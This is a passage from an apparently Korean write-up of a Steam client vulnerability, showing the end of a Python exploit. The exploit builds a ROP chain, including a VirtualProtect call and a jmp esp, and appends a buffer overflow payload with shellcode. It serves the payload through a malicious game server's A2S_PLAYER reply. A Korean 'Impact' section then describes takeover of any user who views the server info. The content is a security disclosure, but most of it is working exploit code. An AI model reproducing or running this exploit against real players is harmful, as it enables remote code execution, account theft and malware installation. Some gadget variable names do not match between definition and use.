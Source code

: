     ret_nop = convert_addr(0x401212)
    mov_edx_eax = convert_addr(0x559d46)
    sub_eax_31e82c6a = convert_addr(0x515bbf)
    mov_ebx_ecx_mov_ecx_eax_mov_eax_esi_pop_esi_ret = convert_addr(0x4e284b)
    mov_esi_ptr_esi_mov_eax_esi_pop_esi = convert_addr(0x4506ea)
    xchg_eax_esi = convert_addr(0x515b5e)

    writable_addr = convert_addr(0x69a01c)
    virtual_protect_idata = convert_addr(0x5fa280)
    new_protect = to_unicode(0x31e82c6a+0x40)
    msize = to_unicode(0x31e82c6a+0x501)
    '''

    rop = pop_eax + msize + sub_eax_41e82c6a + mov_ebx_ecx_mov_ecx_eax_mov_eax_esi_pop_esi_ret \
              + u"\ub33f\ubeef" + mov_ebx_ecx_mov_ecx_eax_mov_eax_esi_pop_esi_ret + ret_nop*0x10 \
              + pop_ecx + writable_addr \
              + pop_eax + new_protect + sub_eax_41e82c6a + mov_edx_eax \
              + pop_ebp + jmp_esp + pop_esi + virtual_protect_idata \
              + mov_esi_ptr_esi_mov_eax_esi_pop_esi + u"\ub33f\ubeef" + xchg_eax_esi + pop_edi \
              + ret_nop + pop_eax + u"\u9090\u9090" + pushad

    #special conditions to avoid crashes
    special_condition_1 = to_unicode(STEAM_BASE + 0x10)
    special_condition_2 = to_unicode(STEAM_BASE + 0x11)
    payload = "A"*1024 + u"\ub33f\ubeef"*12 + special_condition_1 + special_condition_2*31 + rop + shellcode
    return payload.encode("utf-8") + "\x00"


def createPLAYERReply():
    # A2S_player response
    # This query retrieves information about the players currently on the server.
    pre = "\xFF\xFF\xFF\xFF"                        # Pre (4 bytes)
    header = "\x44"                                 # Header (1 byte)
    players = "\x01"                                # Amount of players (1 byte)
    indexPlayer1 = "\x01"                           # Index of player (1 byte)

    namePlayer2 = pwn()
    scorePlayer2 = ""
    durationPlayer2  = ""
    return pre + header + players + indexPlayer1 + namePlayer2 + scorePlayer2 + durationPlayer2


FORMAT_CONS = '%(asctime)s %(name)-12s %(levelname)8s\t%(message)s'
logging.basicConfig(level=logging.DEBUG, format=FORMAT_CONS)

if __name__ == "__main__":
    shellcode = convert_shellcode(shellcode)
    for data in udp_server():
        pass
{% endhighlight %}
- - -
# 영향
우리의 악의적인 서버의 서버 info를 보는 어떠한 스팀 유저라도 공격자의 악의적인 임의의 코드 실행으로부터 공격받을 수 있습니다. 보통 공격자는 희생자의 컴퓨터의 제어권을 얻기위해 C2 기반구조와 연결되는 백도어를 실행합니다. 그곳에서부터 공격자는 공격자가 원하는 어떠한 것이라도 할 수 있습니다(예를 들어, 계정 탈취, 스팀 유저의 모든 아이템 훔치기, OS에 추가적인 악성프로그램 설치, 문서 빼내기 등).
